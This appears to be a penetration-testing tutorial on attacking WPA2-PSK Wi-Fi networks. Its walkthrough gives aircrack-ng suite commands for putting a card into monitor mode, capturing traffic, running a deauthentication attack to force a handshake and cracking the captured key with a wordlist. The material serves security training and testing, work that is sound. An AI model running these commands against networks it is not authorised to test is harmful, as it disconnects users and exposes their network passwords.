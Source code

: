 # Wireless Penetration Testing

## Wireless Penetration Testing Overview

Wireless networks generally fall into two categories:

- **WPA2 PSK (Pre-Shared Key):** Commonly used in home networks.
- **WPA2 Enterprise:** Typically used in business environments, with a more complex setup.

Since WPA2 Enterprise is more challenging to set up and test, this guide focuses on WPA2 PSK, which is quicker to attack and commonly documented in blog posts.

### Activities

1. **Evaluating PSK Strength:** Capture a WPA2 handshake and attempt to crack the PSK (password).

2. **Reviewing Nearby Networks:** Identify and assess nearby networks for vulnerabilities.

3. **Assessing Guest Networks:**

   - Check if guest networks are properly separated from main networks.
   - Attempt to crack the guest network password.

4. **Checking Network Access:** Verify the level of access allowed once connected to the network.

### Required Hardware

- **Alfa Wireless Card:**

  - Capable of packet injection and monitoring.
  - Supports both 2.4GHz and 5GHz frequencies.
  - Alfa and Panda are recommended brands.
  - See: [Best WiFi Adapters for Kali Linux](https://www.stationx.net/best-wifi-adapters-for-kali-linux/)

- **Router**
- **Laptop**

### Hacking Process

1. **Switch Wireless Card to Monitor Mode:** Enables capturing all wireless traffic in range.

2. **Discover Network Information:** Identify channel and BSSID of the target network.

3. **Capture Data:** Select the target network and capture data packets.

4. **Perform Deauthentication (Deauth) Attack:** Force a connected user to reconnect to the network.

5. **Capture WPA Handshake:** Obtain the handshake when a user reconnects to the network.

6. **Attempt to Crack the Handshake:** Use tools to crack the WPA2 handshake and retrieve the PSK.

## WPA PS2 Exploit Walkthrough

1. **Connect Router to Kali Linux:**

   - Connect your router to the Kali Linux machine.
   - Verify the connection using `iwconfig`.

2. **Prepare the Wireless Card:**

   - Stop interfering processes: `airmon-ng check kill`
   - Start monitor mode on the wireless card: `airmon-ng start wlan0`

3. **Verify Monitor Mode:**

   - Check if `wlan0mon` appears: `iwconfig`

4. **Scan for Devices:**

   - Use `airodump-ng` to scan for nearby devices: `airodump-ng wlan0mon`
   - Look for the `TP-Link` router in the scan results. Note down the channel and BSSID (e.g., `50:C7:BF:8A:00:73`).

5. **Capture Data:**

   - Start capturing packets from the specific channel and BSSID:
     ```bash
     airodump-ng -c [CHANNEL] --bssid [BSSID] -w capture wlan0mon
     ```
     Replace `[CHANNEL]` with the noted channel number and `[BSSID]` with the router’s BSSID.

6. **Perform Deauthentication Attack:**

   - Open a new terminal tab and execute the following to deauthenticate a connected user:
     ```bash
     aireplay-ng -0 1 -a [BSSID] -c [CLIENT_MAC] wlan0mon
     ```
     Replace `[BSSID]` with the router’s BSSID and `[CLIENT_MAC]` with the MAC address of a connected client (found in the scan results).

7. **Verify WPA Handshake:**

   - In the `airodump-ng` tab, ensure you see `WPA Handshake` at the top, indicating successful capture.

8. **Crack the Password:**
   - Use `aircrack-ng` to crack the captured handshake with a wordlist:
     ```bash
     aircrack-ng -w [WORDLIST] -b [BSSID] capture.cap
     ```
     Replace `[WORDLIST]` with the path to your wordlist file and `[BSSID]` with the router’s BSSID.

